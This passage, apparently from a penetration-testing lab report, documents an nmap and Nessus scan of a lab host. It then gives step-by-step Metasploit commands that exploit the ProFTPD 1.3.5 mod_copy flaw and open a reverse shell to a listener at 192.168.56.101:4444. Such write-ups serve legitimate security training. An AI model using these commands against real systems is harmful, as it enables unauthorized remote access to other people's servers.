 
## 4.1. Initial vulnerability scans and reports

The **nmap** command and **Nessus** were used to run automated scans of potential vulnerabilities in the network. This information was used for the initial discovery phase which led into the exploitation of open ports within the target asset IP 192.168.56.200.
```
Nmap report:   
Notable vulnerabilities in FTP, SSH, HTTP, RPC, MySQL, IRC.

Nmap scan command:   
nmap -T4 -A -sV 192.168.56.200
```

![|inline](https://s2.loli.net/2023/12/10/rgVDF9s87CyEHSQ.png)

## 4.2. Shell access through open port 21 FTP

We discovered this vulnerability by using nmap and Nessus, Metasploit was then used to run a search of ProFTPD module used to exploit open port 21, the following is a description of the ProFTPD 1.3.5 Mod_Copy Command Execution.  
  
*“This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. The copy commands are executed with the rights of the ProFTPD service, which by default runs under the privileges of the 'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website directory, PHP remote code execution is made possible.”* (Rapid7,n.d.).

## 4.3. ProFTPD

**We performed this exploit by using these commands to open a reverse shell:**
```
1.  Open Kali Linux Terminal and open Metasploit

2.  msfconsole

3.  Setting up ProFTPD 1.3.5 Mod_Copy Command Execution module:

4.  search proftpd

5.  use 4

6.  set Rhost 192.168.56.200

7.  set sitepath /var/www/html

8.  Setting up relevant payload options to get reverse shell access

9.  show payloads

10. set payload 5

11. set Lhost 192.168.56.101

12. set Lport 4444

13. Exploit the system

14. Exploit
```
![|inline](https://s2.loli.net/2023/12/10/kKrDdRi9NZsayL5.png)
